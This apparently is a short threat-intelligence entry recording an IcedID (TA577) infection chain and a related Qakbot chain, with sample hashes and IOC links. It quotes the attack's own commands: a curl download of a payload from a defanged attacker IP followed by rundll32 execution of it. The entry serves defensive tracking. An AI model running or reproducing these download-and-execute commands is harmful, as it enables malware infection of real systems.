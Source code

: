 

#IcedID - #TA577 - url > .xll > curl > .dll

EXCEL.EXE Sr.xll

cmd /c curl -o c:\users\public\9y.dat http://135.125.177.]95/syK/3IldTx

rundll32 c:\users\public\9y.dat scab /k besogon728

Samples 👇

https://bazaar.abuse.ch/sample/310b9b7f54880f2142882e39637d73dfc8542eab06ac1bb9ec597b801979b4d8/

https://bazaar.abuse.ch/sample/f45d0303851f913cef47b612211d603449cedaab4df3484048c8473b9d71d96a/

IOC's
https://github.com/pr0xylife/IcedID/blob/main/icedID_09.26.2023.txt

### pdf > url > .js > ps > .dll

[#Qakbot](https://twitter.com/hashtag/Qakbot?src=hashtag_click) - BB32 - pdf > url > .js > ps > .dll
https://twitter.com/Cryptolaemus1/status/1669669651486240769


![proxy everywhere](/assets/images/proxy6.png)
